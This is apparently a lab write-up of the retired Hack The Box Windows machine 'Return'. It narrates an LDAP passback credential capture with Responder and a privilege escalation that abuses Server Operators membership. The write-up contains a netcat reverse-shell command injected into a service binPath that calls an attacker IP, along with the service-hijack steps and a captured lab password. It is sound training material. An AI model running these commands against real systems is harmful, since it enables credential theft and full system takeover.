









### Info:
- Name: **Return**
- OS: **Windows**
- Type: **Unauthenticated**
- Difficulty: **Easy**
- Status: **Retired**

### Content:
- [**`testing.md`**](https://github.com/cac3r/htb_machines/blob/main/return/testing.md)                - Raw notes / working log
- [**`report.pdf`**](https://github.com/cac3r/htb_machines/blob/main/return/report.pdf)                - Professional report
- [**`attack_chain.png`**](https://github.com/cac3r/htb_machines/blob/main/return/attack_chain.png)   - Attack chain diagram
- `screenshots/`           - Supporting screenshots

---
---
### Brief:
#### Initial access: LDAP passback
Starting the test against the target system DC `PRINTER` unauthenticated. After network/host reconnaissance, enumerating the exposed web service at port 80, find "Printer Admin Panel". Clicking on "Settings" load `settings.php` which contains configuration for the printer server, with fields: Server  Address, Port, Username (`svc-printer`) and Password. The Server Address field is set to attacker system IP and, after starting Responder (LDAP server), click update settings to trigger an LDAP authentication that is sent to the specified attacker system, captured by Responder. LDAP is configured to use simple bind without TLS channel, so `svc-printer` credential is received as plaintext. Saved and checked valid for domain authentication.
#### BloodHound enumeration
Using this valid domain credential to run Bloodhound (rusthound) collection and mapping. Discover `svc-printer` is a member of Remote Management Users and Server Operators. Connecting via WinRM (evil-winrm on Linux) to the target system.
#### Privilege escalation: Server Operators Group abuse -> service path hijack
Connected as `svc-printer` to target system enumerate services running and identify VMTools, a service that runs as `NT AUTHORITY\SYSTEM`. As a member of Server Operators, `svc-printer` is allowed to stop, start and configure services. After shipping `nc.exe` from attacker system to target, editing this privileged VMTools service to include a `nc` reverse shell specified in the `binPath` field. Setting a listener, stopping and starting the VMTools service now with the new configuration including the reverse shell, is executed, obtaining a shell as `NT AUTHORITY\SYSTEM`.

---
---
### Techniques:
- LDAP Authentication triggered by attacker controlled destination address in printer setting functionality (web) - Responder capture. Plaintext password
- Member of Server Operators Group abuse - Edit VMTools service configuration `binPath` - Arbitrary system command execution as `NT AUTHORITY\SYSTEM`
---
---
### Lesson:
#### LDAP authentication capture

Website presenting Printer administration panel. Settings allow to configure which LDAP server the printer talks to and what credentials it uses.
This can be abused by setting a controlled system IP that's running Responder server, capturing the sent LDAP authentication.

*(Claude Opus 4.8)*
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------(
1. The printer tries to **authenticate to the LDAP server at the address you specified** — which is now _your machine_, not the real DC.
2. To authenticate, it sends the **stored `svc-printer` credentials** to that address.
3. You’re running **Responder** (or a rogue LDAP listener) on your machine, which **captures** those credentials as they arrive.

This is called **“LDAP passback”**

The printer is configured to use **plain LDAP on port 389** (not LDAPS on 636, and not using signing/channel-binding). Plain LDAP authentication (specifically the “simple bind” method) sends the **username and password in cleartext** over the connection.
)---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Example in this test:



Updating the fields notice changing the server address takes a bit more to load. Setting responder server, LDAP active by default, edit the server address to local IP where responder is running, click update and receive plaintext password for svc-printer.

Setup reponder

```
sudo responder -I tun0
```

Update server address field with attacker IP



In reponder tab



User: `svc-printer`
Password: `1edFg43012!!`

---
#### Server Operators Group abuse

Members of Server Operators can manage (start, stop, and configure) Windows services.
Windows services run as powerful accounts, most run as `NT AUTHORITY\SYSTEM` (the highest local privilege, above administrator).
A service has a configuration that includes its `binPath`, the executable (command) that runs when the service starts.

*(Claude Opus 4.8)*
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------(
1. You’re in **Server Operators** → you can **reconfigure services**.
2. You pick a service that runs as **SYSTEM** (here, VMTools).
3. You **change its `binPath`** to _your_ command (instead of the real service executable).
4. You **restart the service** → Windows executes your command **as SYSTEM** (because that’s the account the service runs as).
5. → SYSTEM-level code execution.

)---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Other ways to abuse:
- Add yourself to local administrators
- Create a new admin user


Example in this test:



Member of Server Operators Group.

Listing services

```
services
```



It looks like this is an interesting and exploitable service

Upload nc.exe

```
upload nc.exe
```



Configure VMTools

```
sc.exe config VMTools binPath="C:\temp\nc.exe -e cmd.exe 10.10.15.242 9001"
```



Set listener

```
rlwrap nc -nlvp 9001
```

Stop the service

```
sc.exe stop VMTools
```



Start it, running new configuration with injected code

```
sc.exe start VMTools
```



Connected as `NT AUTHORITY\SYSTEM` to target system.
